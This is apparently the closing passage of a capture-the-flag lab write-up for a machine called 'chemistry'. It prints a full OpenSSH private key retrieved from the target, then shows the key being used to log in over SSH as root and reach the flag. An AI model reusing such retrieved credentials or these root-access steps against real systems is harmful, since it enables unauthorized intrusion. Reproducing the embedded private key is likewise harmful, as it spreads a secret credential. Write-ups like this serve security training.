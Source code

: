 ```bash
Hry3noZ2BUJXmgvbv/73IgSzTlhqnoOio7KtpVUZAL8CtrLiUk7VWfKhotb49MDuvUKFqx
xEWkapk862p1cmAHU5ol5RqlMostCOxlWKob/0Au47ehaK+DzAI3E9BA9xpB1STjW89nmr
+WhSXDr7AhtWgvdy3uUeN1oMKO5Bz5XzOQ40g0apgcWaWi6Vitx8AimCE26A32LDjGNM8i
NJOci5dbOvOaiSGCR5op/R2QZgyMEu3tq4kx4TW7dp2h8XdFpCfD1E4F7ldlDpY1j/01T0
5DOW8mr+W84SMMYbXU8tNg1o6hUJ9pGkPMXvV/mJq39sCvAuHswMnL5X9yLwE4/vl66Zpo
fbkdR3UtV7w+4JRBajW2KN0PzoYjLaNSRaoFroHh5u9ecg5wdwPqIOEhc6xL6y3oADsLzZ
Q2BoyVp06hJlA5Pa7juBKuGndU2DGwAAAAMBAAEAAAGBAJikdMJv0IOO6/xDeSw1nXWsgo
325Uw9yRGmBFwbv0yl7oD/GPjFAaXE/99+oA+DDURaxfSq0N6eqhA9xrLUBjR/agALOu/D
p2QSAB3rqMOve6rZUlo/QL9Qv37KvkML5fRhdL7hRCwKupGjdrNvh9Hxc+WlV4Too/D4xi
JiAKYCeU7zWTmOTld4ErYBFTSxMFjZWC4YRlsITLrLIF9FzIsRlgjQ/LTkNRHTmNK1URYC
Fo9/UWuna1g7xniwpiU5icwm3Ru4nGtVQnrAMszn10E3kPfjvN2DFV18+pmkbNu2RKy5mJ
XpfF5LCPip69nDbDRbF22stGpSJ5mkRXUjvXh1J1R1HQ5pns38TGpPv9Pidom2QTpjdiev
dUmez+ByylZZd2p7wdS7pzexzG0SkmlleZRMVjobauYmCZLIT3coK4g9YGlBHkc0Ck6mBU
HvwJLAaodQ9Ts9m8i4yrwltLwVI/l+TtaVi3qBDf4ZtIdMKZU3hex+MlEG74f4j5BlUQAA
AMB6voaH6wysSWeG55LhaBSpnlZrOq7RiGbGIe0qFg+1S2JfesHGcBTAr6J4PLzfFXfijz
syGiF0HQDvl+gYVCHwOkTEjvGV2pSkhFEjgQXizB9EXXWsG1xZ3QzVq95HmKXSJoiw2b+E
9F6ERvw84P6Opf5X5fky87eMcOpzrRgLXeCCz0geeqSa/tZU0xyM1JM/eGjP4DNbGTpGv4
PT9QDq+ykeDuqLZkFhgMped056cNwOdNmpkWRIck9ybJMvEA8AAADBAOlEI0l2rKDuUXMt
XW1S6DnV8OFwMHlf6kcjVFQXmwpFeLTtp0OtbIeo7h7axzzcRC1X/J/N+j7p0JTN6FjpI6
yFFpg+LxkZv2FkqKBH0ntky8F/UprfY2B9rxYGfbblS7yU6xoFC2VjUH8ZcP5+blXcBOhF
hiv6BSogWZ7QNAyD7OhWhOcPNBfk3YFvbg6hawQH2c0pBTWtIWTTUBtOpdta0hU4SZ6uvj
71odqvPNiX+2Hc/k/aqTR8xRMHhwPxxwAAAMEAwYZp7+2BqjA21NrrTXvGCq8N8ZZsbc3Z
2vrhTfqruw6TjUvC/t6FEs3H6Zw4npl+It13kfc6WkGVhsTaAJj/lZSLtN42PXBXwzThjH
giZfQtMfGAqJkPIUbp2QKKY/y6MENIk5pwo2KfJYI/pH0zM9l94eRYyqGHdbWj4GPD8NRK
OlOfMO4xkLwj4rPIcqbGzi0Ant/O+V7NRN/mtx7xDL7oBwhpRDE1Bn4ILcsneX5YH/XoBh
1arrDbm+uzE+QNAAAADnJvb3RAY2hlbWlzdHJ5AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

And it worked. Now, we just need to set the correct permissions for our `id_rsa`, and we will be able to log in via SSH as root to finally retrieve our coveted flag.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.11.38
root@chemistry:~# id
uid=0(root) gid=0(root) groups=0(root)
root@chemistry:~# ls
root.txt
```
![netrunner](/assets/images/netrunner.gif)